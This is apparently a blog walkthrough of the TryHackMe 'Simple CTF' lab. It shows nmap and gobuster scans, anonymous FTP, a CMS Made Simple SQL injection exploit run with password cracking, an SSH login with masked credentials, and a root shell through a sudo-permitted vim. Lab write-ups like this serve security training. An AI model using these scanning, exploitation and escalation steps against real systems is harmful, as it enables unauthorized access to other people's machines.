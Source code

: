 ```yaml
---
title: "TryHackMe - Simple CTF"
author: Nasrallah
description: ""
date: 2022-01-27  00:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, linux, ftp, sqli, python, crack, sudo]
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png
  width: 268
  height: 268
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Simple CTF](https://tryhackme.com/room/easyctf) from [TryHackMe](https://tryhackme.com/), an easy machine where we find an outdated CMS, us an exploit for that to get ssh credentials, and finally escalate to root using Vim. If you have any questions please feel free to ask me on any of my [socials](https://nasrallahbaadi.github.io/about).

# **Enumeration**
## nmap

As always, we run a nmap scan:

```terminal
$ sudo nmap -sC -sV -p- 10.10.92.122 | tee scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-27 05:26 EST
Nmap scan report for 10.10.92.122
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 open port:
 - 21 - FTP
 - 80 - HTTP
 - 2222 - SSH

## FTP

From the nmap scan, we see that anonymous FTP login is allowed, so let's take a look:

```terminal
$ ftp 10.10.92.122                                                                                                                                   130 ⨯
Connected to 10.10.92.122.
220 (vsFTPd 3.0.3)
Name (10.10.92.122:sirius): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44846|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |****************************************************************************************************************|   166        1.86 MiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.64 KiB/s)
ftp>
```

>NOTE: When i tried to list the content, it gave me this "229 Entering Extended Passive Mode (|||44846|)" the way i solved was by typing `ctrl+c` and then the command `passive`.

The file we found is a note indicating that the password is so weak and can be cracked in seconds!

## HTTP

Let's now check the web server and see what's there:

![home](/assets/img/tryhackme/simplectf/home.png)

Nothing interesting, let's run a directory scan using Gobuster:

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.92.122 | tee scans/gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.92.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/27 06:07:56 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.92.122/simple/]

===============================================================
```

We found **/robots.txt** file and **/simple** directory, robots file has nothing useful for us, and we find CMS Made Simple running on the machine, and it is displaying the version of it in the bottom left corner:

![version](/assets/img/tryhackme/simplectf/version.png)

We found that this version of the CMS is vulnerable to SQL injection, here is the [exploit](https://www.exploit-db.com/exploits/46635).

## SQLi

After downloading the exploit, we can launch the attack with the following command:`python <exploit>.py -u http://{target_IP}/simple/ -c -w {path/to/the/wordlist}`


```terminal

[+] Salt for password found: 1daREDACTED6bb2
[+] Username found: m___h
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468REDACTEDc7eb73846e8d96
[+] Password cracked: s_____

```

> Note: I have masked the the data above, but if you run the exploit, you will get the username and the password.


# **Foothold**

Now that we have a username and password, we can try to connect to SSH

`ssh -p 2222 username@{target_IP}`

```terminal
$ ssh -p 2222 m____@10.10.92.122
m____@10.10.92.122's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Thu Jan 27 13:58:57 2022 from 10.11.31.131
$ ls
user.txt
```

Great, we got access to the machine via SSH, let's do some enumeration to see what can we find:

```terminal
$ sudo -l
User m___h may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```


# **Privilege Escalation**

With our current user, we can run `vim` as root, this is great, if we go to [GTFPBins](https://gtfobins.github.io/) we can see that there is a way to escalate our privileges to root using this command: `sudo vim -c ':!/bin/bash'` , so let's do it:

```terminal
$ sudo vim -c ':!/bin/bash'

root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:~# ls /root
root.txt
```

And just like that, we got root on the machine.

I hope you guys have enjoyed this machine, see you in the next hack.
